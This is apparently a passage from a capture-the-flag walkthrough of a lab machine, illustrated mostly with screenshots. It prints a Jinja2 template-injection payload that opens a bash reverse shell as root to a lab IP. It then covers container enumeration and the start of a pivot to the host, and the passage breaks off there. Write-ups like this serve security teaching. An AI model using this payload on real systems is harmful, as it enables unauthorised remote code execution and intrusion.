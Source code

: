![](https://i.imgur.com/9FgzGBT.png)


Using the command below, I can spawn a reverse shell as **root**:

```bash
{{config.__class__.__init__.__globals__['os'].popen('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.9/1337 0>&1"').read()}}
```

![](https://i.imgur.com/zXdSn9l.png)


## Shell as Augustus on host

I expected the reverse shell to spawn at `/home` directory but it instead spawns at directory `/backend`

![](https://i.imgur.com/Mj7meB3.png)


Listing files and directories in `/`, I can see **.dockerenv** which implies that this shell could be on a container instead of the host:

![](https://i.imgur.com/szCxB0V.png)



**Dockerfile** seems to be a script that creates `/backend` directory and copies files from the host into it:

![](https://i.imgur.com/wPDIhiI.png)


There seems to be one user on `/home`: augustus

![](https://i.imgur.com/Lz4mbND.png)


However, on `/etc/passwd`, there is no augustus:

![](https://i.imgur.com/bVp5fjF.png)


It turns out home directory for user augustus is being mounted from the host:

`mount | grep augustus`

![](https://i.imgur.com/upjSvlm.png)


### Pivoting

Let's first discover the host IP. With `ifconfig` command, I see **eth** with IP 172.19.02:

![](https://i.imgur.com/CWoGBby.png)

